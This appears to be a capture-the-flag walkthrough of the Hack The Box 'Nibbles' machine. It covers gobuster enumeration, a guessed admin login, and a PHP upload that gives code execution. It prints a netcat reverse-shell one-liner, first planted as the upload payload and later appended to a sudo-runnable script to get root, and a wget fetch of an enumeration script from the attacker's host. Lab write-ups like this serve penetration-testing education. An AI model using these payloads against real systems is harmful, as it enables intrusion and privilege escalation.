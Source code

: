 # Nibbles
Nibbles is a simple machine where the user is given a url to a web application. Users are then expected to showcase common enumeration tactics, basic web application exploitation, and file-related misconfigurations to escalate privileges.

I will be documenting my thought process along with documentation of steps that I am taking to reach the endgoal of exploiting the system.

## Approach

I first enter the URL into the browser and am greeted with a basic 'Hello World' in plaintext

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/ca910484-32c6-42dc-94a6-48772955ce0f)

Since this doesn't provide us much information, I go ahead and check the web application's source code. 

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/8883eeb1-bcea-40a3-8c56-139e1b648918)

It seems that our web dev left us some breadcrumbs. I visited the web directory to encounter the following page: 

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/d6ae5e90-2a10-4517-a201-ab27ed92b6f8)

The only information we really get from this page is that this page is powered by Nibbleblog. We can later try to use this information if we want to directly find an exploit associated with this blog hosting service. 

Let's try a gobuster scan to see if we can enumerate any additional web directories. I used the common wordlist that is included with the tool:

`gobuster dir -u <url/nibbleblog> --wordlist /usr/share/dirb/wordlists/common.txt `

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/6c8aab84-15aa-442c-a2be-b8cf27f19fc6)

We were successfully able to find some additional directories. At this point I will investigate each one to see if there's an exploit opportunity. 

I first tried /admin.php which resulted in a login page. With a stroke of luck I was actually able to log in due to weak credentials `admin : nibbles` 

> My logic behind this guess is that admin is a common username, and Nibbles was a word we've seen when visitng the original /nibbleblog directory. Lucky me :) 

> If I was not as fortunate, I would have to run an offline password brute forcing tool such as hashcat, as hydra would not be feasable as we are instructed that this box limits the amount of login attempts per IP address 

Snooping around the admin portal I noticed that there are plugins. More importantly, I noticed that there's an opportunity for us to attempt RCE; this is because one of the plugins enables us to upload an image. 

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/9bfc7fe5-084a-4757-88b7-c750bddc97fd)

> But of course, as a pentester, we aren't actually uploading images, we're uploading payloads.

Circling back to our directory enumeration, there was actually a plugins directory. After giving it a visit we are greeted with a bunch of folders, one of them being `my_image/` which is potentially where our uploaded RCE attempt will be stored.  

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/8cad5b0f-b761-4d64-bee9-ebafb3424722)


## Getting a Foothold

Now that we have some idea of how we could potentially gain a foothold into the system, let's generate a tester payload featuring a very basic payload.

I have created a file named `image.php` on my system with the following payload inside: `<?php system('id'); ?>` 

If the nibbleblog plugin does not check if this is an image format I should be in the clear. 

The file was able to upload, but the issue is I was unable to find it under the `my_image/` plugins folder. This could mean that our file is being stored elsewhere. 
Going back to my gobuster enumration, we have a /content directory. Poking around lead to me finding another plugins folder, which also has its own `my_image` folder.  

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/1f0b2c79-c340-485f-a7d3-e4e1b6615c75)

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/441435c2-b66d-4ea1-b3ee-7263d9a5b692)

Within it is our file!! 

Attempting to open the file gives us the following output:

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/6f9c0403-3331-4c20-9cc0-4efc49e980d0)

This means that our payload actually works! 

Now here is the fun part.

I am now crafting an actual payload. The goal is to set up a reverse shell and work from there. 

`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <MY IP> <port>  >/tmp/f"); ?>` 

> I replace the < MY IP > and <PORT> with my system's IP address and a port I'd like to catch the reverse shell on. 

We also need to set up a netcat listener: `nc -nvlp <port>` 

I then go through the file upload process again and open our updated image within the my_image folder. 

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/2de247c8-7b8e-4907-a52a-e6083a7c8a0c)

Looks like it worked!
It seems like our shell is very basic, so I'd like to upgrade it so we can get some work done. 

` python3 -c 'import pty; pty.spawn("/bin/bash")' `

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/b7350c0a-7d6b-4d34-a8d9-1fc0bf91f30f)

Now that we've upgraded our shell, let's try to find a flag. 

I run a `whoami` command to see who the user is, we are `nibbler` 

I want to see what's in nibbler's home directory, so I change directories with `cd /home/nibbler` 

I then use the `ls` command to list the files in the home directory. 

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/88a8a6d0-2411-4a30-8bf0-7559a4dfa815)

Seems like we have two options, personal.zip and user.txt

User.txt is the low hanging fruit so let's cat the file to see what's going on in there

`cat user.txt` 

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/4bc8106a-6e53-452f-ab2d-465b9f80564b)

Looks like we've obtained our first flag! 

## Privilege Escalation

Now that we've found the first flag, let's now try to escalate to root. 

We did have another file on hand, which was personal.zip. Let's unpack it and see what's inside using the command 

`unzip personal.zip`

After unzipping the files we are given a file named `monitor.sh` Maybe we can use this to help us to get to root.

Before doing so, I set up a simple http webserver on my attacking system to have our target install a LinEnum script.
> The purpose of LinEnum is to see if I am able to run any sudo commands on the target

`sudo python3 -m http.server 8080`

I then use the following command on our target to install the LinEnum that is on my desktop:

`wget <my ip>:8080/linenum.sh` 

Our target has now downloaded linenum.sh from my system. To run it, we need to do turn it into an executable file using chmod. 

`chmod linenum.sh` 

Executing the file with the command `./linenum.sh` we are told that nibbler can run a command as sudo: `/home/nibbler/personal/stuff/monitor.sh`

This means that we can execute montitor.sh as sudo. 

Going back to the file, let's a reverse shell to the very end of the script. 

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <my ip> <port> >/tmp/f' | tee -a monitor.sh
> It is good practice to put our injects at the END of files because this enables us to clean up quick after the penetration assessment is over. 

I then set up a second netcat listener on my attacking system and executed the file

`sudo /home/nibbler/personal/stuff/monitor.sh`

![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/678f5ec4-4e92-45b2-9ab2-80004eb26c7a)

We caught a connection, and after a whoami we've obtained root!!

I then went to the root directory using `cd /root` and listed the files using `ls` We are given a root.txt file. 

We are then given our final flag after using cat to see what's inside.


![image](https://github.com/b-obby/HTB-walkthroughs/assets/157441224/d656d0aa-1a22-492a-9e2e-30d0e2175abf)


## Alternative: Using Metasploit to obtain a footdoor

> In order for this to work, we need to already know the credentials for the admin portal



# Final Thoughts 







